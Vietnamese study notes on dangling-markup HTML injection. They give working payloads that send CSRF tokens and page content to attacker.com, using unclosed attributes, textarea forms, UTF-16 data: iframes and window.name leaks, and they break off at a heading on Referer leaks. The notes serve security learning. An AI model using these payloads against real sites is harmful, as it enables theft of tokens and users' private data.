


# HTML Injection 
## Dangling Markup 
- **Dangling Markup** xảy ra khi website chèn nội dung do người dùng cung cấp vào trong một thuộc tính HTML nhưng quên đóng dấu nháy hoặc thẻ.

=>  **Kết quả:** trình duyệt tiếp tục đọc phần HTML phía sau như là một phần của giá trị thuộc tính đó.
- Payload `
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
=> Kết quả là trình duyệt sẽ gửi một request hình ảnh tới URL sau (đã được mã hóa URL) : `https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI
`

=> Lấy được **CSRF**

- Tuy nhiên đối với Chromium nõ sẽ loại bỏ các url có kí tự xuống dòng (newline) ngược lại firefox thì không bỏ 
- Biện pháp 
    - dùng `<textarea>` vì nó chỉ bị đóng bới `</textarea>` hoặc **cuối tài liệu** 
    - Tạo 1 nút lớn để người dùng nhập vào và sẽ leak được data
- Payload
```html ==
<form action="https://attacker.com">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
<p>Your email: victim@example.com</p>
```
- Tuy nhiên với Chromium thì ngược lại 
    - 
### Bypass newline detection
- Vậy làm sao để bypass được việc loại bỏ newline???
#### UTF-16 iframe/stylesheet content
- Nếu `<iframe>` được phép ghép với `src=data:` ta có thể  bypass nhờ `charset UTF-16` 

```html
Encoded prefix
<style>*{background-image: url(https://attacker.com?
```
[Encode as UTF-16](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')URL_Encode(true)&input=PHN0eWxlPip7YmFja2dyb3VuZC1pbWFnZTogdXJsKGh0dHBzOi8vYXR0YWNrZXIuY29tPw) 

▼
```html
Payload
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
```
▼

```html 
HTML Source
<iframe src='data:text/html;charset=utf-16,%3C%00s%00t%00y%00l%00e%00%3E%00%2A%00%7B%00b%00a%00c%00k%00g%00r%00o%00u%00n%00d%00%2D%00i%00m%00a%00g%00e%00%3A%00%20%00u%00r%00l%00%28%00h%00t%00t%00p%00s%00%3A%00%2F%00%2F%00a%00t%00t%00a%00c%00k%00e%00r%00%2E%00c%00o%00m%00%3F%00
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
- Nội dung bên trong của `iframe` sau khi `inject`
- 

#### Iframe name attribute
- Có cách khác nữa 
- Khi bạn có thể tạo `iframe` mà nguồn source là remote ; thuộc tính `name` của iframe có thể rò rỉ và được atk đọc thông wa `window.name` 
```html
Html Source
<iframe src="https://attacker.com" name='
<p>Your email: victim@example.com</p>
<footer>That's all folks!</footer>
```
▼
Ở phía console của atker 
```html
> window.name
'\n<p>Your email: victim@example.com</p>\n<footer>That'

```
=> `window.name` có thể chứa xuống dòng ngay cả trên Chromium, vì nó không phải **URL** hay **target**.
- Nếu CSP không cho phép bất kì nguồn nào bên ngoài và ta có thể nhúng `Iframe` => Chiếm luôn wuyền `Iframe` 

```html
HtmlSource
<object data="about:blank" name='
<!-- payload chứa dữ liệu nhạy cảm ở đây -->
```
```html
HtmlSource
<iframe id="iframe" src="https://target.tld/dangling-object"></iframe>
<script>
  iframe.onload = () => {
    const object = iframe.contentWindow[0];
    object.location = "about:blank";  // Navigate to our same-origin

    const interval = setInterval(() => {
      object.origin;  // When it becomes same-origin
      clearInterval(interval);
      alert(object.name);  // Leak its name (kept after navigation)
    })
  }
</script>
```
- Cách khác kết hợp `<base>`  với `target` 
- Khi `base@target` bị `clobber`, mọi link trên trang (kể cả link do attacker chèn) khi người dùng click sẽ được mở với `window.name` = giá trị của `base@target` 
```html
<!-- che phủ toàn màn hình để dụ click -->
<a href="https://attacker.com/leak" style="position:fixed;top:0;left:0;width:100%;height:100%"></a>

<!-- chèn base target chứa newline / payload -->
<base target='
```

### Leak via Referer

